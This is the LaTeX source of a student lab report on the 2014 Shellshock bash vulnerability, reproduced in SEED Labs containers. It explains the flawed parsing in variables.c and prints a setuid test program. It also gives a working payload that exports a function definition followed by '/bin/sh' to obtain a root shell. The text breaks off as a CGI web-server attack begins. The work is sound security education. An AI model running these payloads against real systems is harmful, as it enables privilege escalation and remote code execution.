%\documentclass[10pt,a4paper]{article} 
\documentclass[12pt,a4paper,twocolumn]{article} 

% preamble
\input{00_preamble.tex}

% Coverpage setup
\title{ Systems Security (F25.520212U009.A) \\
        Project 03 \\
        Group 5 \\
        Aarhus University%
}

\author{Miklos Daniel Vadasz}

\begin{document}

\maketitle\thispagestyle{empty}
\makeatletter

\newpage
\tableofcontents\thispagestyle{empty}
%\lstlistoflistings
%\listofalgorithms
\newpage

\thispagestyle{empty}

% Feladat leiras
\begin{abstract}
On September 24, 2014, a severe vulnerability in \lstinline{bash}\cite{shell.bash} was identified.
The vulnerability was named \textit{Shellshock}\cite{shellshock.CVE-2014-6271}, which can exploit many systems and be launched either remotely or from a local machine. After few days of its publication, a variety of related vulnerabilities were discovered. \cite{shellshock.CVE-2014-6277, shellshock.CVE-2014-6278, shellshock.CVE-2014-7169, shellshock.CVE-2014-7186, shellshock.CVE-2014-7186, shellshock.CVE-2014-7187}. The \textit{arbitrary code execution} \cite{secdef.ace} vulnerability made possible for the Attackers to create \textit{botnets}\cite{secdef.botnet} of compromised computers to perform \textit{distributed denial-of-service attacks}\cite{secdef.ddos} and vulnerability scanning.

In this assignment, I will study and reproduce a working local and remote exploit of the \textit{Shellshock} vulnerability.  To showcase a working exploit I built upon Seeds Lab Security's Shellshock Lab Exercise\cite{seedlabshellshockattack} which was developed on September 29, 2014. For experimenting with the exploit an execution environment was assembled by me with the aid of \textit{OCI} containers\cite{podman,oci.containers}, where I'm able to launch an exploit against a vulnerable Apache Web Server\cite{http.apache}. To get a better understanding of the exploit  I will show the attempt against the unpatched and patched \lstinline{bash} programs as well, while observing the processes with \lstinline{strace}\cite{diag.strace} in relation to \textit{Shellshock} vulnerability \cite{shellshock.CVE-2014-6278, shellshock.CVE-2014-6271} .

%In this specific paper I document the attacker model (conditions in which the vulnerability can be exploited), the security properties that were violated throughout the exploitation of Shellshock and finally I explain how the vulnerability was fixed. 
\end{abstract}

\newpage

\setcounter{page}{1}

%TODO: Document the attacker model (conditions in which the vulnerability can be exploited)
 
\section{Overview of \textit{Shellshock} vulnerability}
\label{sec:shellshock.overview}
%\include{01}

% -------------------------------------
% Shellshock vulnerability jellemzese:
% -------------------------------------

A shell program is a command-line interpreter, it reads command  from console or terminal window and executes them. \cite{seedlabshellshockattack} There are many different types of shell have been built, for example given the \textit{Ubuntu 20.04} container one can find the following shells within \lstinline{/etc/shells}: \lstinline{sh} (\textit{Bourne Shell}\cite{shell.sh}), \lstinline{bash} (\textit{Bourne-again shell} \cite{shell.bash}), \lstinline{rbash} (\textit{Restricted Bourne-again Shell} \cite{shell.rbash}), \lstinline{dash} (\textit{Debian Almquist Shell} \cite{shell.dash}).\cite{compseced3}

Bash is an \lstinline{sh}-compatible command language interpreter that executes commands  read from the standard input or from a file.  Bash also incorporates useful features from the \textit{Korn} and \textit{C} shells (\lstinline{ksh} and \lstinline{csh}) \cite{shell.csh, shell.ksh}. Bash is also intended to be a conformant implementation  of  the  Shell  and Utilities  portion  of  the  IEEE  POSIX.1-2024 specification \cite{shell.bash,posix1.2024}.

\subsection{Attacker Model review}
\label{ssec:shellshock.attacker.model}

At first step the \textit{Shellshock} vulnerability in \lstinline{bash} involves functions defined inside the shell, which are called shell functions \cite{seedlabshellshockattack, shell.functions}. 

Shell functions are a way to group commands for later execution using a single name for the group of commands. They are executed just like any "regular" command typed in the terminal for example. When the name of a shell function is used as a simple command name, the list of commands associated with that function name is executed.  Functions are declared using the syntax \lstinline{fname () compound-command [ redirections ]}. \cite{shell.functions}. \cite{compseced3}

So, for example one can define function \lstinline{testfn} with \lstinline{testfn() ( echo "Test vulnerable bash" )}. After executing the function \lstinline{testfn} the string \lstinline{Test vulnerable bash} should be echoed. 

As a second component, the \textit{Shellshock} vulnerability involves passing a function definition to a child shell\cite{ps.childprocess}. One method to pass a shell function to a \textit{child shell}\cite{ps.childprocess} is to define a shell variable with contents like:

\begin{lstlisting}[language=bash, caption=Passing function definition to a child shell]
testfn='() { echo "Test vulnerable bash"; }'
\end{lstlisting}

In this method the content of the variable \lstinline{testfn} starts wtih a pair of parentheses, followed by a sequence of commands  (in this case \lstinline{echo}) within curly brackets. 

After \lstinline{export} of the variable 
\lstinline{testfn} and running it in the vulnerable  child shell (\lstinline{bash_shellshock}) I can observer that \lstinline{testfn} is no longer a shell variable in the child shell, it becomes a shell function.

Using the \lstinline{bash} builtin command \lstinline{declare}\cite{shell.declare} with the flag \lstinline{-f} one can print out the definition of the shell function \lstinline{testfn} as can be seen on \textit{Figure \ref{fig:bash.testfn.shellshock}}:

\begin{figure}[h]
    \centering
    
\includegraphics[width=1.0\linewidth]{Picture/01_shellshock__bash/00_bash_shellshock.pdf.png}
    \caption{The shell variable \lstinline{testfn} becomes a shell function\cite{shell.functions} in the child shell\cite{ps.childprocess}}
    \label{fig:bash.testfn.shellshock}
\end{figure}

Some of these builtin commands are specified in the POSIX standard. \cite{shell.declare}

After the shell variable \lstinline{testfn} was marked by builtin command \lstinline{export}\cite{shell.export} it will be passed as an environment variable\cite{shell.envar} to the child process. \cite{seedlabshellshockattack} 
Since the program was executed is also \lstinline{bash} shell program, the shell program in the child process will pass the environment variables into its shell variables with \lstinline{export}. During  this process when the \lstinline{bash} parse the environment variable that starts with \lstinline{()} it "converts" the variable to a shell function instead of a shell variable. This is the exact reason why the output of \lstinline{echo \$testfn} is nothing, while \lstinline{declare -f testfn} gives back the function definition of \lstinline{testfn}.\cite{compseced3}

With the use of command \lstinline{ps -ef} we are clearly able to see the parent and child relations between the different processes. \textit{Figure \ref{fig:bash.shellshock.inheritance}} shows that the parent process's id (the first columns refers to \textit{PID}\cite{ps}) is \lstinline{36}, while the child's process ID\cite{ps.childprocess} \lstinline{70} is inherited from the parent process ID (second column refers to \textit{PPID}\cite{ps.parent})  with the value of \lstinline{36}.

\begin{figure}[h]
    \centering
    
\includegraphics[width=1.0\linewidth]{Picture/01_shellshock__bash/00_bash_shellshock_parent-child.pdf.png}
    \caption{Inheritance between parent and child process ID after passing environment variables with \lstinline{export}}
    \label{fig:bash.shellshock.inheritance}
\end{figure}

This way any process that needs to pass a function definition to its child process invoked by \lstinline{bash} just needs to pass the function definition via an environment variable. Consequently this means, that the parent process can be also a  \textit{web server}, which passes several values to its child process in the form of environment variables. \cite{compseced3}


%%% 
\subsection{Logical vulnerability within \textit{variables.c}}
\label{ssec:shellshock.variables.c}

As mentioned previously the parent shell process can pass a function definition to a child shell process via an environment variable. Due to  a bug in paring logic, \lstinline{bash} executes the command contained in the environment variable instead of parsing them. \cite{compseced3} 

The following code-snippet shows the vulnerable part can be found inside \lstinline{variables.c}\cite{shellshock.variables.c}.

\begin{lstlisting}[language=c, caption=Vulnerable part of \lstinline{variables.c} ]
// ....
for (string_index = 0; string = env[string_index++]; ){
    // ...
    if (privmode == 0 && read_but_dont_execute == 0 && 
        STREQN ("() {", string, 4)){
        // ....
        // Shellshock vulnerability is inside:
	  parse_and_execute (temp_string, name, SEVAL_NONINT|SEVAL_NOHIST);
// Rest of the code is omitted
\end{lstlisting}

Within the conditionality \lstinline{privmode == 0 && read_but_dont_execute == 0 && STREQN ("() {", string, 4))} \lstinline{bash} checks if there is an exported 
function by simply checking whether the environment variable's value starts with \lstinline{"() {"} or not. In case of a match \lstinline{bash} changes the environment variable string to a function definition by replacing the \lstinline{=} character with a space.\cite{compseced3}
After that, \lstinline{bash} calls the function \lstinline{parse_and_execute} to parse the function definition. In case of the string passed to the function containes the character \lstinline{;} the \lstinline{parse_and_execute} function will process both commands as well. This way we can pass several commands to the function the \lstinline{parse_and_execute}. 

The consequnce of this attack is now clear, if the attack add some extra commands at the eond of a function declaration, then they can pass several function declarations via environment variables to a target process running \lstinline{bash} to run their code. In case of the target process is run with privilege, security breaches can occur. \cite{compseced3}


% TODO: Document: the security properties that were violated troughout the exploitation of Shellshock
\section{Exploitation of the \textit{Shellshock} vulnerability}
\label{sec:shellshock.exploit}
%\include{02}

% Attack against bash + environmental variables: _bash-shellshock file
\subsection{Attack against \textit{Set-UID} programs}
\label{ssec:shellshock.attack.setuid}

Previously in Section \ref{ssec:shellshock.attacker.model} on \textit{Figure \ref{fig:bash.shellshock.inheritance}}  I've mentioned the inheritance between parent and child shell processes in relation  to \textit{UID}s. In this section I review how can we set the environment variables for a privileged \lstinline{bash} process, so they can be exploited by \textit{Shellshock} vulnerability while running commands with the target process's privilege. \cite{compseced3}

Based on \cite{compseced3} the following code-snippet show an example program which invokes \lstinline{system()}\cite{bin.system} function to run \lstinline{/bin/ls} \cite{bin.ls} command.

\begin{lstlisting}[language=c, caption=Invocation of \lstinline{system()} to run \lstinline{/bin/ls}]
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

void main(){
        setuid(geteuid());
        system("/bin/ls -l");
}
\end{lstlisting}
 
For the compilation I used \lstinline{gcc version 9.4.0 (Ubuntu 9.4.0-1ubuntu1~20.04.2)} without any flag. After compilation (\lstinline{gcc vuln.c -o vuln}) a similar idea to inheritance can be used as showed before  on \textit{Figure \ref{fig:bash.shellshock.inheritance}}.  To be able to do so I set the owner of the file to \lstinline{root} with command \lstinline{chown root vuln}\cite{bin.chown} and also change its mode to world readable with \lstinline{chmod 4755 vuln}\cite{bin.chmod}, where \lstinline{4755}  gives the owner \textit{read}, \textit{write}, and \textit{execute} permissions, the user and group \textit{read} and \textit{execute} rights after setting the setuid bit.\cite{bin.chmod}. \textit{Figure \ref{fig:shellshock.bash.euid}} shows the execution of the compiled program \lstinline{vuln}:

\begin{figure}[h]
    \centering
    
\includegraphics[width=1.0\linewidth]{Picture/01_shellshock__bash/01_bash_shellshock_setuid-attack.pdf.png}
    \caption{Execution of the compiled program \lstinline{vuln}}
    \label{fig:shellshock.bash.euid}
\end{figure}

It should be noted if the real user ID is not the same as the effective user ID \lstinline{bash} will not process function declarations from the environment variables, thus it will be not vulnerable to the \textit{Shellshock} attack. Also turning the real user ID to effective user ID within the line \lstinline{setuid(geteuid())} is not a common practice. \cite{compseced3}.

For the demonstration of attack I change the symbolic link \lstinline{/bin/sh} to point to the vulnerable \lstinline{bash_shellshock} binary  to trigger the vulnerability with \lstinline{ln -sf /bin/bash_shellshock /bin/sh}\cite{compseced3, bin.ln}. 

Similarly to the code-snippet I showed in \textit{Section \ref{ssec:shellshock.attacker.model}} writing \lstinline{; /bin/sh} in the tail can be used to trigger the vulnerability:

\begin{lstlisting}[language=bash, caption=Getting a root shell,label={lst:shellshock.basic-form}]
    export vulnfun='() { echo "Got a root shell!!"; }; /bin/sh'
\end{lstlisting}

Since I'm invoking the vulnerable \lstinline{bash} \lstinline{/bin/sh} binary the function definition \lstinline{vulnfun} will be passed as an environment variable to the child process after running \lstinline{./vuln} program.  Thus trough the process inheritance it will provide me a root shell as can be seen of \textit{Figure \ref{fig:shellshock.bash.exploit}}: 

\begin{figure}[h]
    \centering
    
\includegraphics[width=1\linewidth]{Picture/01_shellshock__bash/01_bash_shellshock_setuid-exploited.pdf.png}
    \caption{Getting a root shell by exploiting Shellshock vulnerability with \textit{SETUID} program}
    \label{fig:shellshock.bash.exploit}
\end{figure}

It can be noted that running \lstinline{./vuln} without defining \lstinline{vulnfun} will not give a root shell.

% Attack against a CGI Webserver
\subsection{Attack against CGI script: CVE-2014-6271}
\label{ssec:shellshock.attack.webserver}

Common Gateway Interface (\textit{CGI} furthermore)\cite{apache.cgi}
is utilized by web servers to run executable programs that generates
web pages dynamically. Many \textit{CGI} programs are shell scripts, Web server extensions such as Apache modules\cite{apache.modules} (e.g. \lstinline{mod_perl}\cite{apache.modules.perl}, \lstinline{php-fpm}\cite{apache.modules.php} and \lstinline{mod_python}\cite{apache.modules.python}), which allow long-running application processes handling more than one request and hosted within the Web server.\cite{apache.cgi}

To showcase an attack against a Web server I use the Seed Lab Material, please refer to \cite{seedlabshellshockattack}, for a more detailed setup about the lab environment, please refer the \ref{apx:seedphp-apache}.

Given the scenario the web server container's \lstinline{IPv4} address is \lstinline{10.9.0.5}. The \textit{hostname}\cite{bin.hostname} of the server is called 
\lstinline{www.victim-server.local}
, to the actual steps of modification of \lstinline{/etc/hosts}, please see \ref{apx:labsetup.mapiptoapache}. 

As mentioned before  Many CGI programs are
shell scripts, so before the actual CGI program runs,
a shell program will be invoked first, and such an invocation is
triggered by users from remote computers. If the shell program is
a vulnerable \lstinline{bash} program, we can exploit the Shellshock vulnerable to gain privileges on the server.\cite{seedlabshellshockattack}

More specifically,  GNU Bash through 4.3 (please note in this given scenario I use \lstinline{version 4.2.0(1)-release} regarding the binary \lstinline{bash_shellshock}) processes trailing strings after function definitions in the values of environment variables, which allows remote attackers to execute arbitrary code via a crafted environment, as showcased in  \textit{Section \ref{sec:shellshock.exploit}}.\cite{shellshock.CVE-2014-6271, shellshock.variables.c, shellshock.CVE-2014-7169}

On the otherhand in case of the \lstinline{mod_cgi}\cite{apache.modules.cgi} and \lstinline{mod_cgid}\cite{apache.modules.cgid} modules are present in the \textit{Apache HTTP Server}\cite{http.apache}, scripts executed by unspecified \textit{DHCP}\cite{proto.dhcp} clients, and other situations in which setting the environment occurs across a privilege boundary from vulnerable \lstinline{bash} execution exposes the server to ShellShock vulnerability \cite{shellshock.CVE-2014-7169} providing the \textit{Attacker} the chance to gain privileges on the server.

For this specific scenario I'll  built a test environment based on  the  \lstinline{Dockerfiles}\cite{docker.dockerfiles} provided in \cite{seedlabshellshockattack}. Given the webserver container(\lstinline{10.9.0.5}) an two example CGI scripts are resides within \lstinline{/usr/lib/cgi-bin/}.  For a more detailed description regarding the \textit{Dockerfile} and the applied instructions\cite{docker.dockerfiles} please refer to \textit{Appendix \ref{apx:shellshocklab.dockerfile.apache-php}}. 

After starting the web server container \lstinline{10.9.0.5} using the command we can reach the CGI program with \lstinline{curl}\cite{bin.curl}.

% output
\textit{Figure \ref{fig:apachicgi.curl} } showcases the output of command  \lstinline{curl http://www.victim.local/cgi-bin/vul.cgi}

\begin{figure}[h]
    \centering
